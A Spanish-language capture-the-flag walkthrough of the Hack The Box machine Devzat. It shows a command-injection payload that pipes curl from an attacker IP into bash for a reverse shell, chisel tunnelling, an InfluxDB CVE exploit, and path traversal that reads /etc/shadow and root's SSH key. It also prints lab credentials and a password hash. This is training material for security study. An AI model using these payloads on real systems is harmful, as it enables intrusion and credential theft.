# Devzat



- devzat.htb
- Whatweb
http://devzat.htb [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], Email[patrick@devzat.htb], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.136.15], JQuery, Script, Title[devzat - where the devs at]

- 8000
*Golang x/crypto/ssh*



- 80
Vemos que la web nos invita a


Intentamos conectarnos con un usuario cualquiera



Nos da error, le pasaremos que el tipo de key es *ssh-rsa*
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa -l qarlg devzat.htb -p 8000
```



- Nos hemos  conectado a lo que parece un chat, de hecho si probamos a conectarnos con otro usuario *test* podemos ver los mensajes del otro usuario

- Dentro del propio chat nos recomienda hacer */help* para ver qué comandos podemos correr



Podemos
- Ver salas
```bash
/room
```

o mover a otra sala
```bash
/room #nombre
```

- Formatear tablas, encabezados, itálica, etc -> posible XSS
- Enviar mensajes directos
```bash
=user <msg>
```

- Soporte para zona horaria
```bash
/tz Continent/City
```

- Jugar al tic tac toe y hangman
```bash
/tic
```

```bash
/hang <word>
```

- Nos muestra un recurso bulkseotools.com/add-remove-line-breaks.php para sustituir líneas

- Podemos ejecutar comandos con */commands*



- Probamos varios exploits de golang, gogs, ssh pero no parece ir por ahí

- Fuzzeamos directorios
```bash
wfuzz -c -t 200 --hc=404 --hh=6527 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://devzat.htb/FUZZ/
```



- Fuzzeamos subdominios
```bash
wfuzz -c -t 200 --hc=302 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "Host: FUZZ.devzat.htb" http://devzat.htb/
```

**pets.devzat.htb**



Vemos lo que parece una lista de mascotas donde podemos añadir nuevas con un nombre y un choice
- Whatweb
http://pets.devzat.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], HTML5, HTTPServer[My genious go pet server], IP[10.129.136.15], Script[module], Title[Pet Inventory]

- Burp para probar SQLi, NoSQLi Y posibles errores no controlados
Al añadir mascotas el sistema las borra automáticamente
- Si introducimos algo que no esté en el choice nos aparece *exit status 1*


- Parece que corre algún tipo de comando en linux
```bash
echo $!
```

nos muestra el exit status del comando ejecutado anterior en la bash

- Fuzzeamos el nuevo subdominio
```bash
gobuster dir -u http://pets.devzat.htb -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,js,txt --exlude-length 510
```



- /build -> Encontramos dos js que no parecen tener mucha relevancia
- /.git -> Nos clonaremos el repositorio
```bash
wget -r http://pets.devzat.htb/.git
```

- PODRÍAMOS recomponer el repositorio con
```bash
git reset --hard
```

- Entramos al oculto */.git* para husmear
```bash
git log -p
```



- En el segundo commit
```bash
git show 464614f32483e1fde60ee53f5d3b4d468d80ff62
```

vemos lo que parece una API



- Vemos lo que parece un usuario **nil**
- El servicio antes escuchaba en el puerto 5000 del servidor

- Vemos que existe diferencias en el binario **petshop**



```bash
git show 464614f:petshop > petshop.old
git show ef07a04:petshop > petshop.new
```



- El archivo es **main.go**, iremos a inspeccionarlo
```bash
git show ef07a04ebb2fc92cf74a39e0e4b843630666a705:main.go
```

- Vemos una línea crítica



- Por cada animal que le llega llama a una función *loadCharacter(species string)* la cual ejecuta directamente en el sistema el comando
```bash
sh -c "cat characteristics/especie+"
```

- Probaremos a inyectar código en el exec de la forma
```bash
specie; commando
```

Usaremos burp y pondremos en la petición



```bash
Cat;id
```

Al recargar rápido la pagina (porque lo borra rápido automáticamente)



Vemos que se produce el RCE

- Lanzaremos una revshell con curl
```bash
"species":"Cat;curl http://10.10.16.179|bash"
```



patrick

## Escalada

SUID -> /usr/lib/openssh/ssh-keysign -> Nada en principio
CAP -> Nada
USUARIOS -> *patrick -> catherine -> root*

- Vemos puertos locales
```bash
ss -nltp
```



```bash
curl localhost:5000
```

vemos el pet inventory
- Con la info que teníamos antes sabemos que reside una API en la dirección *localhost:5000/api/pet*
```bash
curl localhost:5000/api/pet
```

-> nos devuelve en json todos los datos de los nombres y descripciones de los animales



- No parece que podamos hacer mucho en principio

- Vemos otro puerto el **8443**
Intentaremos ver que corre
```bash
nc localhost 8443
```

-> No existe nc
```bash
telnet localhost 8443
```

-> Es un ssh 2.0 -> el devchat
```bash
ssh test@localhost -p 8443
```

Nos conecta al mismo chat que teníamos acceso desde el puerto 8000 visible externamente

- Vemos que existe un apparmor, que puede ser que tengamos que tenerlo en cuenta más tarde

- No vemos nada interesante en */etc/cron.d*

- Nos pasamos y ejecutamos *linpeas.sh*
/etc/apache2/sites-enabled/000-default.conf -> Nada
/home/catherine/.profile -> Nada
/snap/core18/2074/usr/share/keyrings/ubuntu-archive-removed-keys.gpg -> Nada
/home/catherine/.bash_history -> Nada

- Vamos a utilizar chisel par hacer *port forwarding* de los puertos 8086 8443 y 5000
Nos lo pasamos a la máquina víctima con los mismos números de puertos
- En Kali
```bash
./chisel server --reverse -p 1234
```

Con --remote el cliente puede pedirle al servidor (kali) que abra puertos
- En MV
```bash
./chisel client 10.10.16.179:1234 R:8086:127.0.0.1:8086 R:8443:127.0.0.1:8443 R:5000:127.0.0.1:5000
```

- Hacemos un escaneo de servicios con *nmap*
```bash
nmap -sCV -p8086,8443,5000 127.0.0.1
```

- 5000 http Golang net/http server
- 8086 y 8443



- Buscamos qué es Influx DB y si tiene vulnerabilidades conocidas



- Encontramos un exploit
https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933
```bash
python3 exploit.py
```

localhost - 8086 - user.txt



Obtenemos las bases de datos -> nos interesa **devzat**

- Nos deja probar pocos comandos
```bash
SHOW MEASUREMENTS
```



- Vemos que hay un value **"user"** con una columna "name" -> entendemos que user es la tabla

- Intentamos hacer un select de esa tabla
```bash
SELECT * FROM "user"
```

Vemos credenciales



catherine:woBeeYareedahc7Oogeephies7Aiseci

-
```bash
su catherine
```

catherine

- SUDO -> Nada
- linpeas.sh
Proceso root



keys



En principio no hay mucho más

- Vamos a inspeccionar el puerto 8443 que hemos traído a nuestra máquina por port forwarding
```bash
ssh -o HostKeyAlgorithms=+ssh-rsa hartometienes@localhost -p 8443
```

Observamos que hay un comando nuevo -> **/file**



Nos pide una contraseña



Probando parece que los argumentos son
```bash
/file <archivo> <pswd>
```

Intento con las credenciales exfiltradas de la base de datos pero no parece ser ninguna

- Buscamos por archivos cuyo usuario sea *cactherine* y eliminamos los irrelevantes
```bash
find / -type f -user catherine 2>/dev/null | grep -vE "sys|proc"
```



Encontramos un backup del entorno de desarrollo
**/var/backups/devzat-dev.zip**

- Buscaremos por la palabra *file* por ejemplo para intentar encontrar algún match que pueda contener la contraseña para subir archivos
```bash
grep -r -i file
```

- Vemos que el archivo **commands.go** es el que contiene todos los matches de la palabra *file*
Inspeccionamos el archivo y vemos una validación muy realista



CeilingCatStillAThingIn2021?

- Intentaremos ahora subir algún archivo privilegiado de la máquina
Nos conectamos desde la propia máquina víctima al puerto 8443
```bash
/file /etc/passwd CeilingCatStillAThingIn2021?
```



- Intentaremos retroceder con un path traversal
```bash
/file /../../../etc/shadow CeilingCatStillAThingIn2021?
```



El hash:\$6$DKdyL4hqyhhxcRyc$8N.1K/dHPqLb7VSB0IvfB.uhIKsH7IeGP/iyTRSYImFiAawsaUOKs/TWe0DCp5wSscYvi.XjX8JPe6lZNnEmH/
Premio

- Buscamos también si existe un id_rsa en root
```bash
/file /../../../root/.ssh/id_rsa CeilingCatStillAThingIn2021?
```



Nos la pegamos en un archivo *id_rsa*

-
```bash
ssh root@devzat.htb -i id_rsa
```

root
